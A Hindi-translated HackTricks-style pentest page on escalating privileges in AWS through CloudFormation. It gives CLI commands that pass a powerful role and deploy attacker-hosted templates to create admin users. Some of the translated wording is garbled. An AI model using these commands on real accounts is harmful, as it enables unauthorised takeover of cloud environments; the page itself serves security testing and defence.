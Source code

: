 # AWS - Cloudformation Privesc

<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों** या **Twitter** पर **मेरा अनुसरण करें** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## cloudformation

क्लाउडफॉर्मेशन के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole`** और **`cloudformation:CreateStack`** अनुमतियों के साथ एक हमलावर को **CloudFormation टेम्पलेट बनाकर विशेषाधिकारों को बढ़ा सकता है** जो कि एक CloudFormation स्टैक बनाते समय पास किए गए भूमिका की अनुमतियों का उपयोग करके कार्रवाई और संसाधन बनाएगा।
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
जहां आक्रमक की वेबसाइट पर स्थित टेम्पलेट में निर्देश शामिल होते हैं जिनका उपयोग करके वे ऐसे कार्य कर सकते हैं, जैसे कि एक प्रशासक उपयोगकर्ता बनाना और फिर उन क्रेडेंशियल का उपयोग करके अपने एक्सेस को बढ़ाना।

निम्नलिखित पृष्ठ में आपको एक उत्पीड़न उदाहरण मिलेगा जिसमें अतिरिक्त अनुमति `cloudformation:DescribeStacks` होती है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका में उच्चारण।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक मौजूदा क्लाउडफॉर्मेशन स्टैक का दुरुपयोग करके उसे अपडेट करने और पूर्व दृश्यावती स्थिति के रूप में वृद्धि करने के लिए उपयोग कर सकते हैं:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप स्टैक पर खुद को `UpdateStack` अनुमति दे सकते हैं और हमला कर सकते हैं।

**संभावित प्रभाव:** निर्दिष्ट किए गए क्लाउडफॉर्मेशन सेवा भूमिका में उच्चारण।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole`** नहीं है, तो भी आप **स्टैक्स को अपडेट कर सकते हैं** और **उनके साथ पहले से जुड़े IAM रोल का दुरुपयोग कर सकते हैं**। उद्धरण के लिए पिछले खंड की जांच करें (बस अपडेट में कोई भी भूमिका निर्दिष्ट न करें)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप स्टैक पर खुद को `UpdateStack` अनुमति दे सकते हैं और हमला कर सकते हैं।

**संभावित प्रभाव:** पहले से जुड़े क्लाउडफॉर्मेशन सेवा भूमिका में उच्चारण।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

अनुमति होने पर एक हमलावर **एक भूमिका को पास करने और एक चेंजसेट बनाने और निष्पादित करने** के लिए **नया क्लाउडफॉर्मेशन स्टैक बना सकता है और क्लाउडफॉर्मेशन सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित हमला एक **चेंजसेट अनुमतियों** का एक **परिवर्तन है**[ **CreateStack वाले**](./#iam-passrole-cloudformation-createstack) का उपयोग करके स्टैक बनाने के लिए।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप स्टैक पर `ChangeSet` अनुमतियों को देने और हमला करने के लिए इस्तेमाल किया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं में उच्चतम अधिकार प्राप्ति।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछली विधि की तरह है लेकिन **IAM भूमिकाओं** को पास किए बिना, इसलिए आप सिर्फ **पहले से संलग्न किए गए भूमिकाओं का दुरुपयोग कर सकते हैं**, सिर्फ पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**पोटेंशियल प्रभाव:** क्लाउडफॉर्मेशन सेवा रोल को पहले से जोड़ दिया गया है प्राइविलेज इस्केलेशन।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर्ती यह अनुमति का दुरुपयोग कर सकता है क्लाउडफॉर्मेशन रोल का दुरुपयोग करने के लिए स्टैकसेट बनाने/अपडेट करने के लिए।

**पोटेंशियल प्रभाव:** क्लाउडफॉर्मेशन सेवा रोल को प्राइविलेज इस्केलेशन।

### `cloudformation:UpdateStackSet`

एक हमलावर्ती इस अनुमति का दुरुपयोग कर सकता है पासरोल अनुमति के बिना स्टैकसेट अपडेट करने के लिए जो जुड़े हुए क्लाउडफॉर्मेशन रोल का दुरुपयोग करने के लिए।

**पोटेंशियल प्रभाव:** जुड़े हुए क्लाउडफॉर्मेशन रोल को प्राइविलेज इस्केलेशन।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
